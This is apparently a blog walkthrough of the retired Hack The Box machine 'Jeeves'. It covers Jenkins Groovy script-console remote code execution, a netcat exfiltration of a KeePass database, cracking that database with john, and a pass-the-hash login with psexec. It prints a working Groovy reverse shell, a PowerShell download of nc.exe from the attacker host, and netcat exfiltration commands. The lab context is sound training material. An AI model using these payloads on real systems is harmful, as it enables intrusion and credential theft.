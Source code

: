 ```yaml
---
layout: post
title: "HTB-Jeeves"
categories: HTB-Walkthrough
---
```


![jeeves](/assets/img/jeeves/jeeves1.png)

Jeeves is another box from TJNull's 'more complicated than OSCP' list of HTB retired machines.



<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.63 |tee -a jeeves.txt
```

```
Nmap scan report for 10.10.10.63
Host is up (0.10s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
```




<hr width="300" size="10">



<h3>Web</h3>

I take a look at the website.

![web](/assets/img/jeeves/jeeves-web.png)



<h3>Gobuster</h3>
```
gobuster dir -u http://10.10.10.63/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -t 30
```

I get a bunch of errors...perhaps fewer threads would help.

I quickly check out port 50000 via firefox and get an error page, I try gobuster there too.

```
gobuster dir -u http://10.10.10.63:50000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt -t 30
```

I only get one hit, and as the scan continues I check out the found directory.

```
/askjeeves (Status: 302)
```

![askjeeves](/assets/img/jeeves/jeeves-askjeeves.png)


Jenkins?



<hr width="300" size="10">



<h3>Jenkins Groovy Script-Console</h3>


I check out 
```
http://10.10.10.63:50000/askjeeves/about/
```
and get the version number.

![about](/assets/img/jeeves/jeeves-about-jenkins.png)



Clicking 'Manage Jenkins' we are taken to a further list of options.
From here we can select the `Script Console`.

![manage](/assets/img/jeeves/jeeves-manage.png)

This console allows for the execution of [groovy](http://www.groovy-lang.org/) scripts on the server.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) provides us with a 'groovy reverse-shell' script.

```java
String host="10.10.14.35";
int port=6969;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

set a netcat listener on 6969
```
nc -nlvp 6969
```

![script-console](/assets/img/jeeves/jeeves-script-console.png)

and 'run' the script.

![revshell](/assets/img/jeeves/jeeves-revshell.png)


<hr width="300" size="10">

We can grab the user flag:

```
c:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   7,522,697,216 bytes free

c:\Users\kohsuke\Desktop>type user.txt
type user.txt
e3xxxxxxxxxxxxxxxxxxxxxxxxxxx66a
```


<hr width="300" size="10">



<h3>Privilege Escalation</h3>


Looking around Kohsuke's directory we can find a 'keypass' file in the 'Documents' folder.
I create a temporary working folder in the C: directory, upload nc.exe and get the file back to Kali.

```
mkdir c:\boo
cd c:\boo
copy c:\users\kohsuke\documents\CEH.kdbx

powershell IWR -uri http://10.10.14.35/nc.exe -outfile c:\boo\nc.exe
```

exfil via nc.exe:

On Kali.
```
nc -nlvp 8888 > CEH.kdbx
```

then on Jeeves.
```
.\nc.exe 10.10.14.35 8888 < CEH.kdbx
```

<hr width="300" size="10">



<h3>Keepass2john</h3>


I use `tee` so that I can see the output in addition to writing to file.

```
root@kali:~/HTB/vip/jeeves# keepass2john CEH.kdbx |tee hash.txt
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48

root@kali:~/HTB/vip/jeeves# john --format="keepass" --wordlist=/root/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/32 OpenSSL])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

moonshine1       (CEH)

1g 0:00:00:54 DONE (2019-08-11 16:06) 0.01834g/s 1008p/s 1008c/s 1008C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```



<hr width="300" size="10">


<h3>kpcli</h3>

We can use kpcli to access the database file.

![kpcli](/assets/img/jeeves/jeeves-kpcli.png)

The key is blanked out in red, but we can copypaste it:

```

Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 

```


<hr width="300" size="10">




<h3>psexec.py</h3>


We've recovered an NTLM hash, we can try [Impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/tree/master/examples) to see if this hash is the admin one.

```
./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63 cmd.exe
```

![psexec](/assets/img/jeeves/jeeves-psexec.png)


Now we can grab the root flag; it's hidden, but easily read.

```

c:\Users\Administrator>cd desktop
 
c:\Users\Administrator\Desktop>dir /r
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of c:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,521,914,880 bytes free

c:\Users\Administrator\Desktop>more < hm.txt:root.txt
afxxxxxxxxxxxxxxxxxxxxxxxxxxxx30

```


<hr width="300" size="10">



:)



